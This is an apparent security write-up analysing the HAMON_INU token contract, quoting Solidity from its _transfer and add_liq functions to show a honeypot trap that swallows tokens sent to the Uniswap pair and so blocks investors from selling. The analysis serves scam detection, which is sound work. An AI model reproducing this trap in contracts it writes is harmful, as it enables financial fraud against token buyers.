

## HAMON_INU - [0xBCf439e5eEC974BBf3E02efe40f24ce0C83E30cc](https://etherscan.io/address/0xbcf439e5eec974bbf3e02efe40f24ce0c83e30cc#code)
### 1. Introduction
This malicious contract incorporate a trapdoor within the conditional checking category. 

### 2. Analysis
  
- **_Not accumulating liquidity pool balance (Conditional checking):_**
  
  _The "\_transfer" function does not include the accumulation of the token balance at UniswapV2pair when an investor attempts to sell the token. This absence of balance accumulation creates a sell restriction mechanism, limiting the ability to sell the token effectively._

### 3. Explanation
- **_Not accumulating liquidity pool balance (Conditional checking):_**

    ```solidity
    371:     function add_liq() public payable onlyOwner {
    372:         
    373:         IUniswapV2Router02 uniswapV2Router = IUniswapV2Router02(routerAddy);
    374:         
    375:         pairAddress = IUniswapV2Factory(uniswapV2Router.factory()).createPair(address(this), uniswapV2Router.WETH());
    376: 
    377:         _approve(address(this), address(uniswapV2Router), _initialSupply);
    378:         
    379:         uniswapV2Router.addLiquidityETH{value: msg.value}(
    380:             address(this),
    381:             _initialSupply*50/100,
    382:             0, // slippage is unavoidable
    383:             0, // slippage is unavoidable
    384:             _owner,
    385:             block.timestamp
    386:         );
    387:         
    388:     }    
    ```

    ```solidity
    424:     function _transfer(address sender, address recipient, uint256 amount) internal virtual {
    425:         
    426:         require(sender != address(0), "ERC20: transfer from the zero address");
    427:         require(recipient != address(0), "ERC20: transfer to the zero address");
    428: 
    429:         _beforeTokenTransfer(sender, recipient, amount);
    430:         
    431:         _balances[sender] = _balances[sender].sub(amount, "ERC20: transfer amount exceeds balance");
    432:         if(sender == _owner || sender == address(this) || recipient == address(this)) {
    433:             _balances[recipient] = _balances[recipient].add(amount);
    434:             emit Transfer(sender, recipient, amount);
    435:         } else if (recipient == pairAddress){ } 
    436:         else{
    437:             _balances[recipient] = _balances[recipient].add(amount);
    438:             emit Transfer(sender, recipient, amount);
    439:         }
    440:         
    441:     }
    ``` 

  

    _The "\_transfer" function is called by both the transfer and transferFrom functions within the HAMON\_INU contract._

    _The trap is activated when an investor initiates a sell transaction. In the "\_transfer" function, there is a conditional statement (if-else) that handles sell transactions towards liquidity pool differently. When the recipient address matches the pairAddress variable, which is set to the uniswapV2pair address through the "add\_liq" function, the statement at line number 435 is executed. This statement results in an empty body, preventing the accumulation of balance to the uniswapV2pair, effectively imposing a sell restriction mechanism._

    _The creator of the contract has control over this trap through the add\_liq function. By calling this function, the creator assigns the uniswapV2pair address to the pairAddress variable._
    
  
